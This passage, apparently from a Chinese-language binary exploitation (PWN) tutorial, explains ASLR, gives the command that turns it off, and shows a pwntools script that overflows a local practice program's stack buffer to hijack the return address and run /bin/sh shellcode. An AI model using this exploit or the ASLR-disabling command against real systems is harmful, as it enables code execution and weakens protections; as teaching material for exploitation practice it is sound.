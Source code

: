 ```
register __uint64_t sbp_val asm("xxx");

```

### 4.4.1 拦路虎 - ASLR

什么！每次打印出来的地址都不一样！！！每次看到的地址都是失效的，新运行的程序都会再获得新的地址，这样可怎么确认地址啊！！！

```
1: get rbp: 0x7ffd21d27d00, rsp: 0x7ffd21d27cd0
2. get rbp: 0x7ffe71bd5a70, rsp: 0x7ffe71bd5a40
3. get rbp: 0x7ffe2ba2b780, rsp: 0x7ffe2ba2b750

```

难道我的第一次 PWN 之路就这么结束了？

![](https://bbs.kanxue.com/upload/attach/202406/1000123_2AVXSA84ZZTYZMW.webp)

通过查阅资料可以知道，为了避免其他人提前知道程序的内存布局，Linux 引入地址空间布局随机化`Address Space Layout Randomization`技术，提高内存布局的随机性。

ASLR 是否开启可以通过虚文件`/proc/sys/kernel/randomize_va_space`进行查看，当然也可也通过虚文件打开和关闭。其中 0 代表关闭，1 代表部分开启（mmap 的基址、stack、vdso）、2 代表全部开启。

通过命令`echo 0 | sudo tee -a /proc/sys/kernel/randomize_va_space`就可以将 ASLR 关闭了。

### 4.4.2 拦路虎 - 金丝雀

在顺利关闭 ASLR 后，`rbp`及`rsp`中保存的数值就会稳定下来，此时再去设置返回地址就万无一失了！

构造如下所示的`exploit`，开始 PWN！

```
import os
import pwn
 
# 设置pwntools环境
 
pwn.context.clear()
pwn.context.update(arch = 'amd64', os = 'linux')
 
# 生成shellcode
 
shellcode_src = pwn.shellcraft.sh()
shellcode_raw_bytes = pwn.asm(shellcode_src)
 
# 构造payload
 
rbp_addr = 0x7fffffffde00
shellcode_gap = 0x8 * 2 # 父函数栈底指针占用空间 + 返回地址占用空间，0x8为64位下指针类型数据占用的空间大小
hijack_ret = pwn.p64(rbp_addr + shellcode_gap)
payload = 'A' * 0x14 # 0x14为本地缓冲区变量到栈底的偏移值，使用字符A覆盖本地缓冲区变量到栈底的位置
payload += 'B' * 0x8
payload += '{0}'.format(str(hijack_ret)[2:-1])
payload += '{0}'.format(str(shellcode_raw_bytes)[2:-1])
 
 
# 执行程序
 
exec_path = './bufof'
os.system('{0} {1}'.format(exec_path, payload))

```
